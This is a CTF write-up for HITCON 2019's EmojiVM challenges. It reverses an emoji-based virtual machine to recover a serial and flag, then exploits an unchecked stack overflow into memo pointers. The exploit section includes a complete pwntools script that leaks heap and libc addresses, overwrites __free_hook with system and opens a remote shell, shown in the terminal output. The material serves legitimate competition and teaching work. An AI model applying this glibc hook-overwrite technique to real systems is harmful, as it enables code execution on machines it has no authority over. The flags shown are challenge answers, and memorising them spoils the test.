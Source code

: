 # Emojivm rev, pwn

## description


```
EmojiVM [187pts] - rev

A simple VM that takes emojis as input! Try figure out the secret!
```
```
EmojiiiVM [236pts] - pwn

Have you ever wrote an "emoji exploit" ?
Well now it's your chance! Pwn the service and get the flag ;)

nc 3.115.176.164 30262
```



## binary analysis

The vm gets input via emojis

`./emojivm ./chal.evm`

and the input file looks like: 

```
🈳🈳🈳⏬😅⏬😍❌⏬😀➕🆕⏬😀⏬😍⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍
```

init_prob() function is at 0x4221 (sub_4221).

```c
unsigned __int64 init_prob()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0x1F233;                                 // empty
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 1;
  v1 = 0x2795;                                  // heavy +
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 2;
  v1 = 0x2796;                                  // heavy -
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 3;
  v1 = 0x274C;                                  // multiply
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 4;
  v1 = 0x2753;                                  // question
    ...
```

There are two list of emoji. The one is for instructions and the other one is for numbers(constant number).  



## instruction

The function at 0x4db8 (sub_4db8)  brings next instruction via pc, and figure it out its behaviour. 

Instruction set of this vm:

```python
INST_NOP         = 1 
INST_ADD         = 2 
INST_SUB         = 3 
INST_MUL         = 4 
INST_MOD         = 5 
INST_XOR         = 6 
INST_AND         = 7 
INST_SETG        = 8 
INST_SETEQ       = 9 
INST_JMP         = 0xA 
INST_JZ         = 0xB 
INST_JNZ          = 0xC 
INST_PUSH_IMM    = 0xD 
INST_POP         = 0xE 
INST_GET_Memo_BYTE  = 0xf 
INST_SET_Memo_BYTE  = 0x10
INST_MAKE_Memo   = 0x11
INST_DELETE_Memo  = 0x12
INST_WRITE_Memo  = 0x13
INST_PRINT_Memo  = 0x14
INST_PRINT_STACK_STR  = 0x15
INST_PRINT_STACK_VAL  = 0x16
INST_HLT         = 0x17
```



## go reversing

I wrote the emulator code with python. 

After printing assembly, we can figure out what this vm does.

chal.evm generates 2 byte arrays

```
memo2 = [0x18, 5, 0x1d, 0x10, 0x42, 0x9, 0x4a, 0x24, 0x0, 0x5b, 0x8, 0x17, 0x40, 0x0, 0x72, 0x30, 0x9, 0x6c, 0x56, 0x40, 0x9, 0x5b, 0x5, 0x1a, 0x0]
memo4 = [0x8e, 0x63, 0xcd, 0x12, 0x4b, 0x58, 0x15, 0x17, 0x51, 0x22, 0xd9, 0x4, 0x51, 0x2c, 0x19, 0x15, 0x86, 0x2c, 0xd1, 0x4c, 0x84, 0x2e, 0x20, 0x64, 0]
```

Then getting user input, check it via flag_check_routine.

The check routine does

* length check: the input length should be 24
* `-` check: the input should he a serial format like `aaaa-aaaa-aaaa-aaaa-aaaa`
* some calculation for each byte. The result should be the same with memo4

Xoring correct input and memo2 will give us flag.

```python
In [1]: a = [0x18, 5, 0x1d, 0x10, 0x42, 0x9, 0x4a, 0x24, 0x0, 0x5b, 0x8, 0x17, 0x40, 0x0, 0x72, 0x30, 0x9, 0x6c, 0x56, 0x40, 0x9, 0x5b, 0x5, 0x1a, 0x0]

In [2]: for (x, y) in zip(a,"hitcon{"):
   ...:     print chr(x^ord(y)),   
   ...:     
p l i s - g 1
```

We can get the correct input by z3, or manually. I did it by hand.

So the right input is `plis-g1v3-me33-th3e-f14g`, then the vm gave us the flag.

`hitcon{R3vers3_Da_3moj1}`



## let's pwn!

A vulnerability is simple.

```c
.bss:000000000020E200 ; _QWORD Memo[12]
.bss:000000000020E200 Memo            dq 0Ch dup(?)           ; DATA XREF: sub_4744+36↑o
.bss:000000000020E200                                         ; sub_4744+95↑o ...
.bss:000000000020E260 ; _QWORD stack[1024]
.bss:000000000020E260 stack           dq 400h dup(?)   
```

stack is consecutive from `Memo`.

There is a `pop` instruction, which checks overflow. However, other operators (add, sub...) do not check overflow so we can easily overwrite memo.

The struct memo is 

```c
struct memo{
size_t size;
char * string_ptr;
};
```

With overwriting string_ptr, we can easily make arbitrary read and write.

This is our exploit.evm

```
⏬😍⏬😍❌⏬😍❌⏬😍⏬😍❌➕🆕⏬😍🆕⏬😍🆕⏬😍🆕⏬😍🆕⏬😍🆕➕🔝🔝🔝🔝🔝🔢⏬😀📄⏬😍⏬😍❌⏬😅❌⏬😍⏬😉❌⏬😉➕➕➕⏬😍🆕⏬🤣🆓⏬😍⏬😍❌⏬😍❌🆕⏬🤣📄⏬😜📝⏬🤣📄⏬😜📄⏬😀🆓🛑
```

with some interaction, we can overwrite `__free_hook` to `system`

```python
from pwn import *
import sys, os

log.info("For remote: %s HOST PORT" % sys.argv[0])
bin_name = "./emojivm"
context.terminal = ["tmux", "splitw", "-h"]

try:
  r = remote(sys.argv[1], int(sys.argv[2]))
  r.recvuntil ("-mb25 ")
  hash_seed = r.recvline ()[:-1]
  print "hash_seed:" + hash_seed
  hash_args = ["hashcash", "-mb25", hash_seed]
  pp = process (hash_args)
  pp.recvuntil ("hashcash token: ")
  r.sendlineafter ("hashcash token: ", pp.recvline ()[:-1])
  r.recvuntil ("1000 bytes")
  with open ("payload.evm", "rb") as f:
    pay = f.read ()

  r.sendline (str(len(pay)))
  r.sendafter ("file:\n", pay)
except:
  r = process ([bin_name, "./payload.evm"])#gdb.debug([bin_name, "./payload.evm"], aslr=False, gdbscript=cmd) #, env = {})

def do_debug (cmd = ""):
  try:
    if sys.argv[1] == 'debug':
      gdb.attach (r, cmd)
  except:
    pass

elf = ELF (bin_name)
context.word_size = elf.elfclass
libc = ELF('libc.so.6') if os.path.exists('libc.so.6') else elf.libc
#context.log_level = 'debug'

def rr ():
  r.recvuntil (": ")

def menu (idx):
  rr ()
  r.sendline (str(idx))

heap_leak = int(r.recvn (14))
print "heap_leak: " + hex(heap_leak)
r.sendline ("/bin/sh")
libc_leak_target = heap_leak + 0x670
r.sendline (p64(8) + p64 (libc_leak_target))
libc_leak = u64(r.recvn(6) + "\x00\x00")
libc_base = libc_leak - 0x3ebca0
print "libc_base: " + hex(libc_base)

system = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]

r.sendline (p64(8) + p64(free_hook))
r.sendline (p64(system))
r.interactive ()
```

```zsh
➜  emojivm_pwn python gen.py; python sol.py 3.115.176.164 30262      
316
[*] For remote: sol.py HOST PORT
[+] Opening connection to 3.115.176.164 on port 30262: Done
hash_seed:rhwvzrwi
[+] Starting local process '/usr/bin/hashcash': pid 24407
[*] '/home/bincat/pwn/hitcon-2019/emojivm_pwn/emojivm'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
heap_leak: 0x55cdb8f08dd0
libc_base: 0x7f4a6e99d000
[*] Switching to interactive mode
$ id
uid=1000(emojivm) gid=1000(emojivm) groups=1000(emojivm)
$ cat /home/emojivm/flag
hitcon{H0p3_y0u_Enj0y_pWn1ng_th1S_3m0j1_vM_^_^b}
$ 
```

